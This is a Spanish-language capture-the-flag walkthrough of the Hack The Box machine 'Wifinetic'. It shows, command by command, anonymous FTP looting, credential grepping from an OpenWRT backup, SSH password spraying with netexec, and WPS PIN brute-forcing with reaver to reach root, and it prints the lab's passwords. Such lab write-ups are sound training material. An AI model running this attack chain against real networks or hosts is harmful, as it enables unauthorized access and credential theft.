










Wifinetic es una máquina Linux de dificultad fácil que presenta un desafío de red intrigante, centrándose en la seguridad inalámbrica y la monitorización de la red. Un servicio FTP expuesto tiene habilitada la autenticación anónima que nos permite descargar los archivos disponibles. Uno de los archivos es una copia de seguridad de OpenWRT que contiene la configuración de la red inalámbrica que revela una contraseña del punto de acceso. El contenido de los archivos shadow o passwd revela además los nombres de usuario en el servidor. Con esta información, se puede llevar a cabo un ataque de reutilización de contraseñas en el servicio SSH, lo que nos permite obtener un punto de apoyo como usuario netadmin. Usando herramientas estándar y con la interfaz inalámbrica proporcionada en modo de monitorización, podemos forzar brutamente el PIN WPS para el punto de acceso para obtener la clave precompartida (PSK). La frase de contraseña se puede reutilizar en el servicio SSH para obtener acceso root en el servidor.

# Enumeración

Iniciamos enumerando los puertos de la maquina victima

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.247 -oG allportsScan

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
```

Los puertos que encontramos son `21`, `22` y `53` de los cuales procederemos a enumerar los servicios y versiones que se ejecutan en dichos puertos.

```c
❯ nmap -p21,22,53 -sC -sV -Pn -vvv -n 10.10.11.247 -oN servicesScan

PORT   STATE SERVICE    REASON  VERSION
21/tcp open  ftp        syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.55
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
53/tcp open  tcpwrapped syn-ack
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Observamos que el en el servicio del puerto 21 podemos iniciar sesión haciendo uso del su
usuario Anonymous.

## FTP - 21

Iniciamos como el usuario Anonymous y encontramos ciertas ciertos archivos, luego transferiremos los archivos a nuestra maquina atacante.





Luego de descargar y revisar cada uno de los archivos, el mas interesante es el archivo `.tar` en el que encontraremos los siguientes archivos.



Encontramos un archivo `passwd` que contiene los usuario, esto lo guardaremos en un archivo `users.txt`

```c
❯ cat passwd| awk -F ':' '{print $1}'> users.txt
```



# shell - netadmin

Revisando un poco mas encontraremos archivos con credenciales

```c
❯ grep -rE 'password|key|pass' . 2>/dev/null
```



Las credenciales que encontramos son:

```c
./config/wireless:      option key 'VeRyUniUqWiFIPasswrd1!'
./config/rpcd:  option password '$p$root'

```

Haciendo uso de `netexec` para validar las credenciales contra el servicio `ssh`, los usuarios que haremos uso serán los que encontramos en el archivo `passwd`

```c
❯ netexec ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!'
```



Vemos que el usuario `netadmin` es valido con la contraseña y podemos autenticarnos contra el servicio `ssh`

```c
netadmin : VeRyUniUqWiFIPasswrd1!
```



# shell - root

Enumerando las interfaces de red encontraremos que se tiene conexiones de red inalambrica



```c
netadmin@wifinetic:~$ iw dev
phy#2
        Interface mon0
                ifindex 7
                wdev 0x200000002
                addr 02:00:00:00:02:00
                type monitor
                txpower 20.00 dBm
        Interface wlan2
                ifindex 5
                wdev 0x200000001
                addr 02:00:00:00:02:00
                type managed
                txpower 20.00 dBm
phy#1
        Unnamed/non-netdev interface
                wdev 0x100000080
                addr 42:00:00:00:01:00
                type P2P-device
                txpower 20.00 dBm
        Interface wlan1
                ifindex 4
                wdev 0x100000001
                addr 02:00:00:00:01:00
                ssid OpenWrt
                type managed
                channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
                txpower 20.00 dBm
phy#0
        Interface wlan0
                ifindex 3
                wdev 0x1
                addr 02:00:00:00:00:00
                ssid OpenWrt
                type AP
                channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
                txpower 20.00 dBm
```

`iw dev` se utiliza en Linux para mostrar información detallada sobre los dispositivos de red inalámbrica (Wi-Fi) disponibles. Este comando es parte del conjunto de herramientas `iw`, que proporciona una interfaz para interactuar con las configuraciones de los dispositivos de red inalámbrica. Aquí te dejo algunos ejemplos de cómo usar el comando `iw dev` y lo que puedes esperar como salida:

`wlan0` está habilitado en `phy0`. Funciona como un punto de acceso (`type AP`) con el SSID `OpenWrt` en el canal 1.

`wlan1` está habilitado en `phy1` y opera en modo "managed", lo que indica que es un cliente. Dado que el SSID, el canal y la frecuencia central son los mismos que los de `wlan0`, se trata de un cliente en ese punto de acceso.

`wlan2` y `mon0` están en `phy2`. `wlan2` también funciona como cliente (en modo "managed"), mientras que `mon0` está en modo monitor como se sospechaba. `wlan2` no muestra ninguna conexión.

## reaver

```c
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

El punto de acceso de destino es `wlan0`, que tiene una dirección MAC del `iw`comando anterior de `02:00:00:00:00:00`. La interfaz del modo de monitor es `mon0`. La mayoría de `reaver`los tutoriales muestran cómo usar el `wash`comando para obtener el BSSID/MAC.



Luego de esperar un poco podremos una contraseña de la red inalámbrica que la podemos usar para acceder como el usuario `root`.

```c
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'

root : WhatIsRealAnDWhAtIsNot51121!
```



